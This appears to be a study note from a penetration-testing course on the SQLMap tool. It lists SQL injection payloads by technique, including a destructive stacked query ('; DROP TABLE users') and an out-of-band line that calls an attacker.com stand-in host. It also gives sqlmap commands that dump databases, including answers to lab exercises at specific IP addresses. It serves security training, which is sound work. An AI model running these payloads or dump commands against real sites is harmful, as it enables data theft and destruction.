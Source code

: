 # 🐡 SQLMap Essentials

[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws.

We can install it the following way:

```shell-session
sudo apt install sqlmap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

The default techniques that are used are `BEUSTQ:`

* `B`: Boolean-based blind
* `E`: Error-based
* `U`: Union query-based
* `S`: Stacked queries
* `T`: Time-based blind
* `Q`: Inline queries

***

### Different types of SQLI

#### Boolean-based blind SQL Injection

```sql
AND 1=1
```

It is exploited through the differentiation of `TRUE` from `FALSE` query results

The differentiation is based on comparing server responses to determine whether the SQL query returned `TRUE` or `FALSE`.

#### Error-based SQL Injection

```sql
AND GTID_SUBSET(@@version,0)
```

If the `database management system` (`DBMS`) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries.

#### UNION query-based

```sql
UNION ALL SELECT 1,@@version,3
```

With the usage of `UNION`, it is generally possible to extend the original (`vulnerable`) query with the injected statements' results.

the attacker can get additional results from the injected statements within the page response itself.

#### Stacked queries

```sql
; DROP TABLE users
```

This works by injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default)

#### Time-based blind SQL Injection

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

#### Inline queries

```sql
SELECT (SELECT @@version) from
```

#### Out-of-band SQL Injection

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi).

### Getting Started

To get all options and switches&#x20;

```shell-session
sqlmap -hh
```

Basic command:

```shell-session
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

{% hint style="info" %}
Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
{% endhint %}

{% hint style="info" %}
#### Different messages usually found during a scan of SQLMap ->

https://academy.hackthebox.com/module/58/section/696
{% endhint %}

To set up an SQLMap request against the specific target is by utilizing `Copy as cURL`

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

`GET` parameters are provided with the usage of option `-u`/`--url`

`POST` data, the `--data` flag can be used

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

If we want to use an alternative HTTP method, other than `GET` and `POST` (e.g., `PUT`), we can utilize the option `--method`

```shell-session
sqlmap -u www.target.com --data='id=1' --method PUT
```

Another way of launching sqlmap is with a burp request:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we copy and paste the request in a txt file and call it in our command:

```shell-session
sqlmap -r req.txt
```

if we have a case where we have a session cookie we need to specify it:

```shell-session
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

**Questions**

\#1&#x20;

```
sqlmap 'http://83.136.250.45:54294/case2.php' --data 'id=1' --batch --dump
```

\#2&#x20;

```
sqlmap 'http://83.136.250.45:54294/case3.php' --cookie='id=1*' --dump --batch
```

\#3&#x20;

```
sqlmap -r req2.txt --dump --batch
```

### Handling SQLMap Errors

`--parse-errors`, to parse the DBMS errors (if any) and displays them as part of the program run

`-t` option stores the whole traffic content to an output file

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

`-v` option, to raise the verbosity level of the console output

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

`--proxy` option to redirect the whole traffic through a (MiTM) proxy (e.g., `Burp`). This will route all SQLMap traffic through `Burp`, so that we can later manually investigate all requests

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Prefix & Suffix

To go faster after manual enumeration we can use  `--prefix` and `--suffix`

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

This will result in a query like this:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

**Questions**

**#5**&#x20;

```
sqlmap http://94.237.59.231:59227/case5.php?id=1 --risk=3 --level=5 -T flag5 --no-cast --batch --dump
```

\#6&#x20;

```
sqlmap http://94.237.59.231:59227/case6.php?col=id --random-agent --batch --dump --prefix='`)' --level=5 --risk=3
```

\#7&#x20;

```
sqlmap http://94.237.59.231:59227/case7.php?id=1 --union-cols=5 --dump --no-cast
```

